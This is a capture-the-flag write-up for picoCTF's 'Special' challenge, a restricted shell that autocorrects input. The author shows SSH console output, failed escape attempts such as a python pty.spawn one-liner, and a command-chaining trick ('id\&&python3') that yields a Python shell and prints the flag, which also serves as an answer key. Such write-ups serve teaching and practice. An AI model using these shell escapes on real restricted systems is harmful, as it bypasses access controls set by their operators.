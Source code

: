 # Special

Author: LT 'syreal' Jones
Link: https://play.picoctf.org/events/72/challenges/challenge/377
Tags: General Skills, bash, ssh

## Problem

> Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) Start your instance to see connection details. Additional details will be available after launching your challenge instance.

This challenge also came with the hint "Experiment with different shell syntax."

## Solution

I started the instance associated with the challenge and got a means to connect to a virtual machine associated with said challenge.

Some console output:

```
lambdacalculus-picoctf@webshell:~$ ssh -p 54332 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:54332' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ls -la
Is la 
sh: 1: Is: not found
Special$ ls
Is 
sh: 1: Is: not found
Special$ /bin/bash
Why go back to an inferior shell?
Special$ /bin/bash -p
Why go back to an inferior shell?
Special$ python -c 'import pty; pty.spawn("/bin/bash")'
Why go back to an inferior shell?
Special$ python3
Python 
sh: 1: Python: not found
Special$ python
Python 
sh: 1: Python: not found
Special$ Python
Python 
sh: 1: Python: not found
Special$ /usr/bin/python
Absolutely not paths like that, please!
Special$ cat
Cat 
sh: 1: Cat: not found
Special$ 
```

This will require some "thinking outside the box," and I noticed the following hint after starting the instance: "Experiment with different shell syntax." I eventually devised a method for tricking the bad shell into giving me a Python shell:

```
Special$ id\&&python3
Id\&&python3 
sh: 1: Id&: not found
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("pwd")
/home/ctf-player
0
>>> os.system("ls -l")
total 0
drwxr-xr-x 2 ctf-player ctf-player 22 Mar 16 02:10 blargh
0
>>> os.system("ls -l blargh")
total 4
-rw-r--r-- 1 root root 41 Mar 16 02:10 flag.txt
0
>>> os.system("cat blargh/flag.txt")
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}0
>>> Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
```

## References

1. https://www.gnu.org/software/bash/manual/html_node/Shell-Syntax.html
